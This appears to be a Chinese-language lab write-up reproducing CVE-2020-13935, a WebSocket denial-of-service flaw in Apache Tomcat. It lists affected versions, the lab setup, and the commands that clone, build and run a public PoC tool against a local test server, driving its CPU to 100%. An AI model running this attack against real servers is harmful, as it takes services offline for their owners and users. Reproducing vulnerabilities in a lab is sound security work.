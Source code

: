 # 0x00 软件介绍
Tomcat：一款流行的java web应用服务器

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：apache-tomcat-8.5.56

# 0x02 环境搭建
靶机系统：2008_r2_standard_zh-chs  
下载并解压apache-tomcat-8.5.56  
进入目录bin并执行startup.bat，出现“Server startup in xx ms”，通常表示启动成功，如下图  
![image](./a.png)  
访问[http://172.16.35.133:8080/](http://172.16.35.133:8080/)，确认服务成功启动，如下图  
![image](./b.png)

# 0x03 利用条件
Tomcat上部署了WebSocket应用，如examples/websocket

# 0x04 影响版本
9.0.0.M1 <= apache tomcat <= 9.0.36  
10.0.0-M1 <= apache tomcat <= 10.0.0-M6  
8.5.0 <= apache tomcat <= 8.5.56  
7.0.27 <= apache tomcat <= 7.0.104  

# 0x05 漏洞复现
攻击系统：Kali-Linux-2020.2-vmware-amd64  
首先访问[http://172.16.35.133:8080/examples/websocket/](http://172.16.35.133:8080/examples/websocket/)确认存在WebSocket应用，如下图  
![image](./f.png)  
执行如下命令：  
git clone https://github.com/RedTeamPentesting/CVE-2020-13935  
cd CVE-2020-13935  
go build  
./tcdos ws://172.16.35.133:8080/examples/websocket/echoProgrammatic  
执行后靶机系统CPU骤升到100%，如下图  
![image](./c.png)

# 0x06 踩坑记录
坑1：  
执行go build后，可能会报如下错误  
![image](./d.png)  
此时需要一些合理上网方式，成功执行后如下图  
![image](./e.png)  

# 0x07 参考链接
https://www.anquanke.com/post/id/221861  
https://github.com/RedTeamPentesting/CVE-2020-13935  
https://www.pegaxchange.com/2018/01/28/websocket-server-java/  
https://www.pegaxchange.com/2016/09/02/java-eclipse-tomcat/  
https://www.cnblogs.com/xdp-gacl/p/5193279.html  
https://blog.redteam-pentesting.de/2020/websocket-vulnerability-tomcat/
